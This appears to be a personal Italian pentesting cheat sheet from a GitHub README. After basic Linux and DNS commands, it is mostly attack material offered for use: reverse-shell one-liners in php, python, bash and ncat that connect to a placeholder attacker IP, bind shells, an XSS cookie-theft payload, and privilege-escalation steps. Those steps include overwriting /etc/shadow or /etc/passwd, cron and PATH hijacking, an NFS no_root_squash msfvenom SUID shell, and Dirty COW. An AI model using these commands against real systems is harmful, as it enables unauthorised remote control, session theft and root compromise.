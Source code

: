 # LISTA COMANDI UTILI

###### FIND
   è il comando usato per trovare un file seguendo certi criteri
	- `find /`: inizia a cercare da root
	- `-user user1`: cerca file creato da utente user1
	- `-group group1`: cerca file creato da gruppo group1
	- `-size +6c -size -10c`: cerca file con dimensione maggiore di 6byte e minori di 10 byte
	- `-perm 4000`: cerca file con permessi utente root, se 2000 file avviato con privilegi del gruppo invece, che potrebbe essere root

###### SSH
   è il comando per potersi collegare ad un computer in remoto
	- `ssh username@hostname`: connettiti ad IP = hostname usando username per credenziale d'accesso
	- `-p 2020`: utilizza la porta 2020 per la connessione

###### SCP
   è il comando per trasferire file usando ssh
	- `scp username@hostname:/percorso/origine /percorso/destinazione/nome_file_di_destinazione`: prendi file dalla connessione ssh e salvalo in locale con nome nome_file_di_destinazione
	- `-r`: copia una intera directory

###### HOST
   è il comando utilizzato per eseguire query DNS e ottenere informazioni sui nomi di dominio.
	- **`-t ns`**: specifica il tipo di record DNS che desideri ottenere. In questo caso, "ns" sta per "nameserver", quindi stai chiedendo di ottenere informazioni sui server dei nomi del dominio
	- **`-t mx`**: specifica il tipo di record DNS richiesto, in questo caso, "mx" per i record di scambio di posta (Mail Exchange)
	- `-l hostname.com nsztm2.digi.ninja`: prova un DNS Zone Transfer, utile per altre informazioni

###### WHOIS
   è il comando per vedere informazioni sul possesso di un dominio o di un indirizzo IP. Potrebbe interessarti il "Name Server" per DNS Zone Transfer
	`whois esempio.com`: vedi le informazioni di esempio.com

###### NC
    utile per creare client/server rapidamente. Ottimo per mandare i comandi alla macchina che stiamo attaccando
- ```nc -l 1234```: inizia ad ascoltare nella porta 1234
- ```nc 127.0.0.1 1234```: connettiti alla macchina con indirizzo 127.0.0.1 alla porta 1234


# SHELLS
## REVERSE SHELL
Nella reverse shell è l'attacker che si mette in listening e la vittima si collega

### ATTACCANTE

```
ncat -lvnp 4242
```

### VITTIMA

#### php
```
php -r '$sock=fsockopen("IP_ATTACCANTE",4242);shell_exec("sh <&3 >&3 2>&3");'
```

#### python3
```
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP_ATTACCANTE",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

#### bash

```
bash -i >& /dev/tcp/IP_ATTACCANTE/4242 0>&1
```

```
0<&196;exec 196<>/dev/tcp/IP_ATTACCANTE/4242; sh <&196 >&196 2>&196
```

```
/bin/bash -l > /dev/tcp/IP_ATTACCANTE/4242 0<&1 2>&1
```

#### netcat
```
ncat 10.0.0.1 4242 -e /bin/bash
```

## BIND SHELL
Nella bind shell è la vittima che si mette in listening e l'attaccante si collega

### VITTIMA

```
nc -lvnp 4242 -e /bin/bash
```

### ATTACCANTE
```
nc IP_VITTIMA 4242
```

# XSS
```<script>alert(document.cookie)</script>``` è quello che mediamente mi può interessare per idSession

1. prova a metterlo nella URL se puoi dopo il ?
2. prova a metterlo in un button come `onclick=alert(document.cookie)`
3. prova a metterlo nella URL dopo una GET/POST con `&<script>alert(document.cookie)</script>`


# PRIVILAGE ESCALATION

La guida che segue è un po' disordinata, è più una lista di metodi da provare che altro. 

0. **CALDAMENTE CONSIGLIATO** Runna [linpeas.sh](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) dopo averlo scaricato sulla macchina vittima
1. Controlla se il file /etc/shadow è readable, cracka la hash del root
2. Controlla se il file /etc/shadow è writable, genera una nuova password sha-512 `mkpasswd -m sha-512 newpasswordhere` e sostituiscila a root
3. Controlla se il file /etc/passwd è writable, genera una password con `openssl passwd newpasswordhere` copia la riga iniziale di root alla fine di passwd, sostituisici il primo `root:x` con `newroot:password`, cambia utente in newroot
4. Usa `sudo -l` e vedi che comandi puoi usare come root, usa [GTFOBins](https://gtfobins.github.io/) per vedere quali permettono di fare privilage escalation
5. Guarda `cat /etc/crontab`, vedi se ci sono programmi che vengono eseguiti come root e prova a modificarli per avere shell o qualcosa di simile
6. Guarda `cat /etc/crontab`, vedi il PATH e i programmi che vengono eseguiti come root, crea un programma con lo stesso nome di quello root nella prima cartella in ordine che appare in PATH che ti possa permettere di avere una shell o qualcosa di simile
7. Guarda `cat /etc/crontab`, vedi se tra  i programmi root si sono WILDCARDS \*, poi usa gli exploit adatti
8. Guarda `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`, cerca se ci sono file soggetti ad exploit da [Exploit DB](https://www.exploit-db.com/)
9. f
10. Guarda se magari nella cronologia `cat ~/.*history | less` ha per sbaglio messo la password
11. Cerca se c'è la chiave SSH da qualche parte, copiala in un file root_key, `chmod 600 root_key`, e poi prova a connetterti con questa chiave `ssh -i root_key -oPubkeyAcceptedKeyTypes=+ssh-rsa -oHostKeyAlgorithms=+ssh-rsa root@IP_VITTIMA`
12. Guarda `cat /etc/exports`, se ci sono opzioni `no_root_squash` allora puoi usare il `mount` come root per avere privilegi root nella macchina vittima. 
		 ATTACCANTE (es. su /tmp vulnerabile a no_root_squashing):
		`mkdir /tmp/nfs` 
		`mount -o rw,vers=3 IP_VITTIMA(credo):/tmp /tmp/nfs`
		`msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf`
		`chmod +xs /tmp/nfs/shell.elf`
		VITTIMA:
		`/tmp/shell.elf`
13. Come ultima istanza, prova un Dirty COW, anche se meglio di no
